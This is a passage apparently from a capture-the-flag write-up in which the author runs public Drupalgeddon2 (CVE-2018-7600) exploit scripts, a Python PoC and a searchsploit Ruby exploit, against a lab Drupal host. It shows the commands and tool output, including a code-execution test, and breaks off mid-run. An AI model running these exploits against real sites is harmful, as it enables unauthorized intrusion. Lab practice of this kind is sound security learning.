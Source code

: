 

    root@kali# python 44448.py 
    ################################################################
    # Proof-Of-Concept for CVE-2018-7600
    # by Vitalii Rudnykh
    # Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
    # https://github.com/a2u/CVE-2018-7600
    ################################################################
    Provided only for educational or information purposes

    Enter target url (example: https://domain.ltd/): 'http://10.10.10.9/'
    Not exploitable



#### Ruby Script

However, on [reading about
Drupalgeddon2](https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/#pu3blic-exploits),
it seems this is testing the vulnerability on a Drupal 8 specific path.

I'll try the `ruby` script,
`searchsploit -m exploits/php/webapps/44449.rb`. Now I'll run it, and it
returns the help, and a warning:



    root@kali# ruby 44449.rb 
    ruby: warning: shebang line ending with \r may cause problems
    Usage: ruby drupalggedon2.rb <target>
           ruby drupalgeddon2.rb https://example.com



I'll fix the warning about `\r` with `dos2unix`:



    root@kali# dos2unix 44449.rb 
    dos2unix: converting file 44449.rb to Unix format...
    root@kali# ruby 44449.rb 
    Usage: ruby drupalggedon2.rb <target>
           ruby drupalgeddon2.rb https://example.com



Now I'll run it against my target, and it crashes:



    root@kali# ruby 44449.rb http://10.10.10.9/
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [*] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [!] MISSING: http://10.10.10.9/CHANGELOG.txt (405)
    [!] MISSING: http://10.10.10.9/core/CHANGELOG.txt (404)
    [+] Found  : http://10.10.10.9/includes/bootstrap.inc (403)
    [+] Found  : http://10.10.10.9/core/includes/bootstrap.inc (403)
    [+] Drupal?: 8.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution
    [*] Payload: echo FKIUAUXN
